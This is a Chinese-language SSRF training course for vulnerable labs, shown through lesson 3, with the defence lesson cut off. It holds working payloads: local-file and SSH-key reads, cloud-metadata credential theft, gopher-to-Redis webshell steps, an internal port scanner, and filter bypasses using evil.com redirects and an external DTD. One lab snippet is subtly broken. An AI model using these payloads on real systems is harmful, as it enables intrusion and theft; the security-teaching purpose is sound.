# SSRF 服务端请求伪造详解
> 📚 课程目录

| 课时 | 主题 | 时长 | 核心产出 |
| :---: | --- | :---: | --- |
| 第 1 课 | SSRF 基础 + 危险协议 + 靶场复现 | 60 min | 完成 DVWA / pikachu SSRF 关卡 |
| 第 2 课 | 云元数据 + SSRF→Redis + gopher 协议转换 | 70 min | 通过 SSRF 拿云凭证 / 攻击内网 Redis |
| 第 3 课 | 盲 SSRF + DNSLog + 绕过技巧 | 60 min | 写出 5 种以上绕过 PoC |
| 第 4 课 | 防御方案 + 真实案例 + 进阶 | 50 min | 实现服务端 SSRF 防御 |


> 🎯 **学完本课你应当能做到**：
>
> 1. 30 秒内判断某接口是否 SSRF 漏洞
> 2. 用 SSRF 读取 /etc/passwd、扫描内网、攻击 Redis
> 3. 利用云元数据接口（169.254.169.254）拿到 IAM Token
> 4. 写出 5 种以上绕过 IP 限制的方法
> 5. 实现白名单 DNS 解析 + URL 解析的防御

---

# 第 1 课 · SSRF 基础 + 危险协议 + 靶场复现
## 1.1 什么是 SSRF？
### 一句话定义
**SSRF (Server-Side Request Forgery) 服务端请求伪造**：  
攻击者利用**目标服务器**作为"跳板"，让它**代替攻击者发起网络请求**。



### 核心认知
**关键**：攻击者**进不去**的网络（内网、云元数据），**服务器能进去**。  
SSRF 就是**借服务器的手**做攻击者做不了的事。

---

## 1.2 SSRF 与 CSRF 的本质区别
| 维度 | CSRF | SSRF |
| --- | --- | --- |
| 请求发起方 | **受害者浏览器** | **目标服务器** |
| 谁是受害者 | 用户 | 服务器自己 |
| 借用谁的权限 | 用户的登录态 | 服务器的网络位置 |
| 危害 | 改状态 / 假冒用户 | **内网穿透 / 拿凭证** |
| 防御 | CSRF Token | URL 白名单 |

🎯 **口诀**：
+ CSRF = 借**用户**的 Cookie
+ SSRF = 借**服务器**的网卡

---

## 1.3 SSRF 的本质：服务端"代购"
### 正常场景
```plain
用户上传头像：https://cdn.example.com/avatar.jpg
服务器：
  ① 接收 URL
  ② 检查是否合法
  ③ 下载到本地
  ④ 返回保存路径
```

### 漏洞代码
```php
// avatar.php
$url = $_GET['url'];
$content = file_get_contents($url);   // ❌ 没有白名单
file_put_contents('avatar.jpg', $content);
echo "下载完成：" . $url;
```

**攻击者传入**：

```plain
?url=http://192.168.1.10:6379/    ← 内网 Redis
?url=file:///etc/passwd            ← 本地文件
?url=http://169.254.169.254/latest/meta-data/  ← AWS 元数据
```

服务器**自己**去访问这些 → 返回结果给攻击者。

---

## 1.4 SSRF 高发场景


### 检测关键词
```plain
凡是用户输入一个 URL，服务端会去访问的：
□ 参数名：url / link / src / source / target / endpoint / host / domain
□ 参数值：http://开头
□ 配置 webhook URL
□ 解析远程 XML / HTML
□ 在线工具（PDF、截图、爬虫）
```

---

## 1.5 SSRF 能干什么？（危害全景）


---

## 1.6 SSRF 的危险协议
```
危险协议
├─ file:// 读本地文件
├─ http:/// https:// 通用
├─ gopher:// 万能协议
├─ dict:// 探测端口
├─ ldap:/// ldaps:// LDAP
├─ ftp:// FTP
├─ tftp:// TFTP
├─ jar:// Java Jar
├─ netdoc:// Java 读文件
└─ expect:// 命令执行
```

### 各协议实战示例
#### file:// —— 读取本地文件
```plain
file:///etc/passwd                    Linux 密码文件
file:///etc/shadow                    shadow（需 root）
file:///proc/self/environ             当前进程环境变量（常含密钥）
file:///proc/net/tcp                  当前 TCP 连接
file:///proc/self/cmdline             启动命令
file:///root/.ssh/id_rsa              SSH 私钥
file:///var/lib/mysql/mysql/user.MYD  MySQL 用户表
file:///C:/Windows/win.ini            Windows
```
#### http:// —— 内网端口扫描
```plain
http://192.168.1.1/                   路由器
http://192.168.1.5:6379/              Redis
http://192.168.1.10:3306/             MySQL
http://192.168.1.20:9200/             Elasticsearch
http://192.168.1.30:5601/             Kibana
http://192.168.1.40:2375/             Docker API
http://192.168.1.50:8500/             Consul
```
#### dict:// —— 探测端口 / 协议握手
```plain
dict://192.168.1.5:6379/INFO          获取 Redis 信息
dict://192.168.1.5:6379/CONFIG:GET:*  Redis CONFIG 命令
```
dict 协议是 `dict://host:port/COMMAND:ARGS` 格式，  
`/`**之后的字符会被作为命令发送给目标端口**。
#### gopher:// —— 万能协议（核心）
```plain
gopher://host:port/_base64_or_url_encoded_data
```

`_` 后面是数据，可以是任意 TCP 流量。  
**支持构造任意协议的请求**：HTTP、Redis、Memcache、SMTP 等。
#### ldap:// —— LDAP 查询
```plain
ldap://192.168.1.10/dc=example,dc=com
```
#### expect:// —— 直接命令执行（PHP）
```plain
expect://id                          执行 id 命令
expect://whoami                     执行 whoami
```

需要 PHP 安装 expect 扩展（不常见，但有时命中）。

---

## 1.7 靶场复现 1：DVWA SSRF（File Inclusion 关卡）
DVWA 没有专门的 SSRF 关卡，但 **File Inclusion 关卡**实际上展示了 SSRF 的核心思想。

```bash
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa
# admin / password
```

### Low 级别
```plain
http://localhost:8080/vulnerabilities/fi/?page=file:///etc/passwd
http://localhost:8080/vulnerabilities/fi/?page=http://localhost/index.php
http://localhost:8080/vulnerabilities/fi/?page=http://192.168.1.1/
```

源码：
```php
$file = $_GET['page'];
include($file);   // ❌ 直接包含
```

### Medium 级别
```php
// 替换 http://、https://、../、..\ 为空
$file = str_replace( array("http://", "https://", "../", "..\\"), "", $file );
```

**绕过**：
+ `hthttp://tp://` → 替换中间后变成 `http://`
+ `htttp://tp://localhost/` → 同上
+ 用 `file://` 不被过滤 → `file:///etc/passwd`

### High 级别
```php
// 只允许 file 开头
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    echo "ERROR";
}
```

**利用**：
```plain
?file=file:///etc/passwd   ✅ 符合规则
```

DVWA 的 File Inclusion 偏向 LFI（本地文件包含），更标准的 SSRF 靶场在 pikachu / vulhub。

---

## 1.8 靶场复现 2：pikachu SSRF
```bash
docker run -d --name pikachu -p 8088:80 area39/pikachu
```

### 关卡：SSRF → curl
#### Low 关卡
```plain
http://localhost:8088/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com
```

源码：
```php
$URL = $_GET['url'];
$ch = curl_init($URL);
curl_exec($ch);              // ❌ 无任何过滤
curl_close($ch);
```

#### 利用 1：读本地文件
```plain
?curl=file:///etc/passwd
```

实际 URL：
```plain
http://localhost:8088/vul/ssrf/ssrf_curl.php?url=file:///etc/passwd
```

#### 利用 2：扫描内网端口
```bash
# 写脚本批量探测
for port in 22 80 443 3306 6379 8080 9200; do
  echo "Port $port:"
  curl -s "http://localhost:8088/vul/ssrf/ssrf_curl.php?url=http://localhost:$port/" | head -5
done
```

#### 利用 3：访问云元数据
```plain
http://localhost:8088/vul/ssrf/ssrf_curl.php?url=http://169.254.169.254/latest/meta-data/
```

（靶场在云上才有效，本地无返回）

---

## 1.9 SSRF 自建靶场（最灵活）
```bash
mkdir -p /tmp/ssrf-lab
cat > /tmp/ssrf-lab/app.py <<'EOF'
from flask import Flask, request, Response
import requests

app = Flask(__name__)

@app.route("/proxy")
def proxy():
    url = request.args.get("url")
    if not url:
        return "missing url", 400
    try:
        # ❌ 漏洞：直接转发
        r = requests.get(url, timeout=5)
        return Response(r.content, status=r.status_code,
                       headers={"Content-Type": r.headers.get("Content-Type","text/html")})
    except Exception as e:
        return f"error: {e}", 500

@app.route("/")
def home():
    return "<h1>Internal-Only Service</h1><p>Only accessible from internal network.</p>"

# 模拟内部管理服务
@app.route("/admin")
def admin():
    return "ADMIN: secret_data{internal_flag_should_not_be_exposed}"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
EOF

pip3 install requests flask
python3 /tmp/ssrf-lab/app.py
```

### 实操
```bash
# 1. 正常使用
curl "http://localhost:5000/proxy?url=http://example.com"

# 2. SSRF 读文件
curl "http://localhost:5000/proxy?url=file:///etc/passwd"

# 3. SSRF 访问内网（同一服务器但应隔离）
curl "http://localhost:5000/proxy?url=http://localhost:5000/admin"
# → 返回 ADMIN: secret_data... ❌
```

---

## 1.10 第 1 课小结
| 知识点 | 一句话 |
| --- | --- |
| SSRF 定义 | 借服务器手发请求 |
| 与 CSRF 区别 | CSRF 借用户 Cookie，SSRF 借服务器网卡 |
| 高发场景 | URL 预览 / 文件下载 / Webhook / 在线工具 |
| 危险协议 | file / dict / gopher / ldap / ftp / expect |
| pikachu curl | 最直接的 SSRF 实操靶场 |
| 危害核心 | 内网穿透 + 拿凭证 |


### 课间实操（10 分钟）
1. 启动自建 Flask 靶场
2. 用 `/proxy` 读 `/etc/passwd`
3. 用 `/proxy` 访问 `/admin`（绕过内网隔离）
4. 完成 pikachu SSRF curl 关卡，curl 读本地文件

---

# 第 2 课 · 云元数据 + SSRF→Redis + gopher 协议转换
## 2.1 云元数据接口（IMDS）
### 什么是云元数据接口？
每台云服务器（AWS EC2 / 阿里云 ECS / GCP / Azure）都内置一个**特殊 IP**，  
服务器可以查询自己的元数据：实例 ID、网络、IAM 角色、临时凭证。

### 各云厂商元数据 IP
| 云 | IP | 协议 |
| --- | --- | --- |
| AWS | `169.254.169.254` | HTTP |
| 阿里云 | `100.100.100.200` | HTTP |
| Google Cloud | `metadata.google.internal` | HTTP + Header |
| Azure | `169.254.169.254` | HTTP + Header |
| 腾讯云 | `169.254.169.254` | HTTP |
| 华为云 | `169.254.169.254` | HTTP |

### AWS IMDSv1 利用（最经典）
```plain
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>/
```

**响应**：
```json
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "wJalrXUtnFE...",
  "Token": "FwoGZXIvYXdzEKr//////////wEa...",
  "Expiration": "2026-07-24T15:30:00Z"
}
```

→ 拿到这些 → **可以用 AWS CLI 操作该账号所有云资源**！

### AWS IMDSv2（防御加强）
v2 要求先 PUT 拿 Token，再用 Token 访问：
```bash
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/
```

**SSRF 利用**：如果 SSRF 支持 PUT 方法 + 自定义 Header → 仍可绕过。

### 阿里云元数据
```plain
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/ram/security-credentials/<role-name>
```

### Google Cloud（需 Header）
```plain
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/
```

SSRF 必须能添加 Header 才能访问。

---

## 2.2 实战：用 SSRF 拿云凭证
### 利用流程


### 配置 AWS CLI 用拿到的凭证
```bash
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=wJalrX...
export AWS_SESSION_TOKEN=FwoGZXIv...
aws s3 ls                    # 列出所有 bucket
aws iam list-roles           # 列出角色
aws ec2 describe-instances   # 列出实例
```

⚠️ **真实案例**：  
Capital One 2019 数据泄露 → SSRF + AWS 元数据 → 1.06 亿用户数据泄露。  
攻击者被判 8 年。


---

## 2.3 SSRF + Redis：经典组合（重点）
### 为什么 Redis 是 SSRF 的"最佳目标"？


🎯 **核心场景**：  
Redis 默认无密码 + 监听 0.0.0.0 → 公网进不去 → SSRF 让"服务器代你访问"。  
Redis 允许 `CONFIG SET` 修改持久化目录 + 文件名 → 一旦能写文件 → RCE。


### 用 SSRF 攻击 Redis 的两个关键
**关键 1：HTTP GET 不行，必须构造 RESP（Redis 协议）**
```
RESP（REdis Serialization Protocol）报文示例：
*3\r\n$3\r\nSET\r\n$1\r\nx\r\n$1\r\n1\r\n
拆解：
  *3           ← 数组，3 个元素
  $3 SET       ← 第 1 元素
  $1 x         ← 第 2 元素
  $1 1         ← 第 3 元素
```

**关键 2：用 gopher 协议把 RESP 塞进 SSRF 请求**
```
gopher://192.168.1.5:6379/_*3%0d%0a$3%0d%0aSET%0d%0a$1%0d%0ax%0d%0a$1%0d%0a1%0d%0a
```

| 元素 | 含义 |
| --- | --- |
| `_` | gopher 数据起始符 |
| `*3` | RESP 数组标记 |
| `%0d%0a` | `\r\n`（RESP 换行） |
| 其余 | URL 编码后的 RESP 报文 |


### Redis 攻击方法概览（一览）
| 方法 | 关键命令 | 适用场景 |
| --- | --- | --- |
| 写 Webshell | `CONFIG SET dir → SAVE` | 有 Web 服务 |
| 写 SSH Key | `CONFIG SET dir /root/.ssh` | root 权限 Redis |
| 写 Cron 反弹 | `CONFIG SET dir /var/spool/cron` | Linux + cron 运行 |
| 主从复制 RCE | `SLAVEOF + MODULE LOAD` | Redis ≥ 4.x |


### 工具：Gopherus（自动生成 SSRF→Redis Payload）
```bash
git clone https://github.com/tarunkant/Gopherus.git
cd Gopherus
./gopherus.py --exploit redis
# 交互式菜单：
#   1. Redis Data Extractor
#   2. Redis Write Webshell
#   3. Redis SSH Key Upload
#   4. Redis Reverse Shell
#   5. Redis Lua RCE
```

输入目标 IP / 端口 / Payload → 输出 gopher URL → 直接作为 SSRF 的 url 参数提交。

### 端到端利用流程（一句话）
```plain
发现 SSRF → 内网扫描 6379 → Gopherus 生成 Payload → 提交到 SSRF 接口
            → Redis 写入 webshell/SSH key/cron → 拿 shell
```

> 📖 **Redis 安全深度内容**（RESP 协议逐字节拆解 / 4 种 RCE 完整 PoC / CVE-2022-0543 Lua 沙箱逃逸 / 爆破 / 加固方案）：  
见同目录下 `Redis安全详解.md`，本课件不再展开。  
本课重点在于"SSRF 如何借助 gopher 攻击 Redis"这一**协议转换**思想。
>

---

## 2.4 gopher 攻击其他协议
### 攻击 MySQL（无密码）
```plain
gopher://192.168.1.10:3306/_<binary protocol>
```

工具：Gopherus MySQL 模块。

### 攻击 Memcache
```plain
gopher://192.168.1.10:11211/_<set command>
```

### 攻击 SMTP（发邮件）
```plain
gopher://192.168.1.10:25/_<SMTP commands>
```

可利用 SMTP 中的 CRLF 注入伪造发件人。

### 攻击 FastCGI
```plain
gopher://127.0.0.1:9000/_<FastCGI packet>
```

如果目标 PHP-FPM 监听 0.0.0.0 → 可 RCE。

---

## 2.5 vulhub 靶场：Discuz SSRF（实战）
### 启动
```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/discuz/x3.4-ssrf
docker-compose up -d
```

### 漏洞点
Discuz 的 `home.php?mod=spacecp&ac=profile` 中：

+ 用户可以设置个人主页的"QQ"等字段
+ 服务端会抓取 QQ 头像 URL
+ URL 未做严格过滤

### 利用
```plain
1. 注册账号登录
2. 设置 QQ 号为一个特殊值（包含 SSRF Payload）
3. 触发头像抓取
4. 服务器访问攻击者控制的接口
5. 配合 302 跳转 + gopher 攻击内网 Redis
```

---

## 2.6 第 2 课小结
| 知识点 | 一句话 |
| --- | --- |
| 云元数据 | AWS=169.254.169.254 / 阿里云=100.100.100.200 |
| IMDSv1 | 直接 GET 拿凭证 |
| IMDSv2 | 需 PUT 拿 Token 才能访问 |
| Capital One | 2019 1 亿用户泄露，SSRF + 元数据 |
| SSRF + Redis 经典组合 | 借服务器网卡攻击内网无密码 Redis |
| RESP 协议 | `*N` 数组 + `$N` 字符串 + `\r\n` |
| gopher 转 RESP | 用 `%0d%0a` 表示 `\r\n` + URL 编码 |
| Gopherus | 自动生成 SSRF→Redis Payload |
| Redis 4 种 RCE | webshell / SSH key / cron / 主从复制 |
| 深度内容 | 见 `Redis安全详解.md` |
| gopher 万能协议 | 还可攻击 MySQL / Memcache / SMTP / FastCGI |


### 课间实操（15 分钟）
1. 用自建 Flask SSRF 测试访问 `http://169.254.169.254/`（本地无响应，理解概念）
2. 安装 Gopherus，生成 Redis 写 webshell 的 gopher Payload
3. 启动一个 Redis 容器，用 SSRF + gopher 尝试写 webshell

```bash
docker run -d --name redis -p 6379:6379 redis
```

> 🔗 **进阶实操**：完成本课后，建议进入 `Redis安全详解.md` 第 2 课，把 Redis 4 种 RCE 的完整流程独立走一遍，再回过头对比"SSRF 视角"与"直连 Redis 视角"的差异。
>

---

# 第 3 课 · 盲 SSRF + DNSLog + 绕过技巧
## 3.1 什么是盲 SSRF？


### 盲 SSRF 常见场景
+ Webhook 配置（仅确认 200/非 200）
+ 邮件发送（图片代理）
+ 异步任务（后台抓取）
+ 日志记录（仅记录 URL）

---

## 3.2 盲 SSRF 的检测：侧信道


---

## 3.3 DNSLog 检测盲 SSRF
### 原理
```plain
攻击者控制域名：xxx.attacker.com
让目标服务器请求 → http://xxx.attacker.com
DNS 解析时 → 攻击者的 DNS 服务器记录到 IP
即使 HTTP 请求不返回 → DNS 查询一定发生过
```

### 工具：CEYE / DNSLog.cn
```plain
http://ceye.io
http://dnslog.cn
```

注册得到一个子域名，如 `abc123.ceye.io`。

### 利用
```plain
?url=http://abc123.ceye.io/ssrf_test
```

任何带 DNS 查询的请求都会被记录：

```plain
abc123.ceye.io. IN A 1.2.3.4
[2026-07-24 10:00:00] Source: 192.168.1.100（受害者 IP）
```

---

## 3.4 用 DNSLog 探测内网
### 思路
利用 DNSLog 反查 SSRF 是否发生、目标 IP、版本信息等。

### 子域名编码信息
```plain
?url=http://redis-found.attacker.com    → 看到 DNS = 内网有 Redis
?url=http://port-6379-open.attacker.com → 看到 DNS = 6379 开放
```

---

## 3.5 用 SSRF 探测内网端口（脚本）
```python
# ssrf_scan.py
import requests, time

target = "http://victim.com/proxy?url=http://192.168.1.5:{port}/"
ports = [22, 80, 443, 3306, 6379, 8080, 9200, 11211, 27017]

for port in ports:
    try:
        start = time.time()
        r = requests.get(target.format(port=port), timeout=3)
        elapsed = time.time() - start
        if r.status_code != 500:
            print(f"[+] Port {port}: HTTP {r.status_code}, len={len(r.text)}, {elapsed:.2f}s")
    except requests.exceptions.ConnectTimeout:
        print(f"[-] Port {port}: filtered")
    except Exception as e:
        if "Connection refused" in str(e):
            print(f"[-] Port {port}: closed")
        elif "timed out" in str(e):
            print(f"[?] Port {port}: open but no HTTP")
```

### 时间差异判断
```plain
端口关闭     →  立即 Connection refused（< 100ms）
端口开放     →  等待数据或建立成功（> 500ms）
防火墙过滤   →  超时（3s+）
```

---

## 3.6 SSRF 防御绕过大全（核心章节）
### 常见防御
```plain
服务端典型防御：
1. 黑名单：禁 127.0.0.1 / 192.168 / localhost / .0.0 / .0.1
2. 解析 IP：判断是否内网
3. 限制协议：只允许 http/https
```

### 绕过 1：进制转换
```plain
127.0.0.1 的等价表示：
十进制：2130706433            → http://2130706433/
八进制：0177.0.0.1            → http://0177.0.0.1/
十六进制：0x7f.0.0.1          → http://0x7f.0.0.1/
混合：0177.0x0.1              → http://0177.0x0.1/
缩写：http://127.1            → http://127.1/
缩写：http://127.0.1          → http://127.0.1/
```

**Python 验证**：

```python
import socket
print(socket.inet_aton("2130706433"))   # b'\x7f\x00\x00\x01'
print(socket.inet_aton("0x7f.0.0.1"))   # b'\x7f\x00\x00\x01'
```

### 绕过 2：特殊 IP
```plain
127.0.0.1 等价：
  http://localhost
  http://127.0.0.1
  http://127.0.0.2 ~ 127.255.255.254   全部回环
  http://0                               Windows 视为 0.0.0.0
  http://[::1]                          IPv6 回环
  http://[::ffff:127.0.0.1]            IPv6 映射 IPv4
  http://0.0.0.0                        当前主机所有接口
```

### 绕过 3：DNS Rebinding（DNS 重绑定）


**关键**：DNS 解析两次（校验时 vs 实际请求时）→ 第二次返回内网 IP。

### 自建 DNS Rebinding 服务
```bash
# rbndr.us / ceye 的 rebinding 模式
# 格式：external.internal.rbndr.us
# 第一次解析：external
# 第二次解析：internal

http://1.2.3.4.192.168.1.5.rbndr.us/
```

### 绕过 4：URL 解析差异
```plain
http://evil@127.0.0.1:80/
       ↑       ↑
       userinfo  实际主机

不同解析器对这个 URL 的解读：
  浏览器：127.0.0.1
  curl：  127.0.0.1
  Python urllib：evil
  Java URL：evil
  PHP parse_url：evil
```

→ 如果服务端用 Python urllib 校验，curl 实际请求 → **校验过 evil，实际访问 127.0.0.1**。

### 绕过 5：301/302 重定向
```plain
攻击者控制的外网：
http://evil.com/redirect  →  302 → http://127.0.0.1/

服务端：
1. 校验 http://evil.com/redirect  → 外网，通过
2. 实际请求，跟随 302
3. 实际访问 http://127.0.0.1/
```

**短链跳转**也是一种：

```plain
https://bit.ly/xxxx  → 302 → http://127.0.0.1/
```

### 绕过 6：CRLF 注入
```plain
http://evil.com%0d%0aHost: 127.0.0.1
```

部分 HTTP 客户端会把 `%0d%0a`（\r\n）解析成 HTTP Header 分隔符，从而注入新 Header。

### 绕过 7：XML / SVG 解析器
```plain
<?xml version="1.0"?>
<!DOCTYPE x [
  <!ENTITY % dtd SYSTEM "http://evil.com/x.dtd">
  %dtd;
]>
<svg xmlns="http://www.w3.org/2000/svg">
  <image xlink:href="http://192.168.1.5/"/>
</svg>

```

XXE + SVG → 间接 SSRF。

### 绕过 8：URL 编码
```plain
http://127.0.0.1/       → 黑名单匹配 127
http://0x7f.0.0.1/      → 16 进制
http://%31%32%37.0.0.1/ → URL 编码 "1"
http://127.0.0.1.nip.io/  → nip.io 通配 DNS
```

### 绕过 9：DNS 通配服务
```plain
nip.io   →  127.0.0.1.nip.io  解析为 127.0.0.1
sslip.io →  127.0.0.1.sslip.io 解析为 127.0.0.1
xip.io   →  （已停止）
```

### 绕过 10：使用域名而非 IP
```plain
黑名单只匹配 IP → 用 localhost / localtest.me / ... 绕过
http://localtest.me/    →  解析为 127.0.0.1
http://lvh.me/          →  解析为 127.0.0.1
```

---

## 3.7 绕过实战：自建靶场黑名单
```python
# 自建带黑名单的 SSRF 靶场
cat > /tmp/ssrf-blacklist/app.py <<'EOF'
from flask import Flask, request
from urllib.parse import urlparse
import requests

app = Flask(__name__)

BLOCKLIST = ["127.0.0.1", "localhost", "192.168.", "10.", "172.", "169.254."]

@app.route("/proxy")
def proxy():
    url = request.args.get("url")
    parsed = urlparse(url)
    host = parsed.hostname

    # ❌ 简单黑名单 + 字符串匹配
    for bad in BLOCKLIST:
        if bad in host:
            return f"blocked: {bad}", 403
    try:
        r = requests.get(url, timeout=3)
        return Response(r.content)
    except Exception as e:
        return str(e), 500
EOF
```

### 绕过尝试
```bash
# 1. 进制转换
?url=http://2130706433/                → 127.0.0.1

# 2. 缩写
?url=http://127.1/                     → 127.0.0.1

# 3. 通配 DNS
?url=http://127.0.0.1.nip.io/          → 127.0.0.1

# 4. IPv6
?url=http://[::1]/                     → 127.0.0.1

# 5. 302 重定向
?url=http://attacker.com/redirect      → 302 跳到 127.0.0.1
```

---

## 3.8 第 3 课小结
| 知识点 | 一句话 |
| --- | --- |
| 盲 SSRF | 服务端发请求但不返回响应 |
| DNSLog | 用 DNS 查询作为侧信道 |
| 进制绕过 | 2130706433 = 0x7f.0.0.1 = 127.1 |
| DNS Rebinding | 两次 DNS 解析返回不同 IP |
| URL 解析差异 | userinfo @ 多语言实现不同 |
| 302 跳转 | 校验外网，跳转内网 |
| 通配 DNS | nip.io / sslip.io / lvh.me |
| CRLF | %0d%0a 注入 Header |


### 课间实操（15 分钟）
1. 用 DNSLog.cn 检测自建靶场是否发出 DNS 请求
2. 启动带黑名单的 Flask 靶场，依次尝试 10 种绕过
3. 用 nip.io 等通配 DNS 解析任意 IP 验证

---

# 第 4 课 · 防御方案 + 真实案例 + 进阶
## 4.1 SSRF 防御的难点
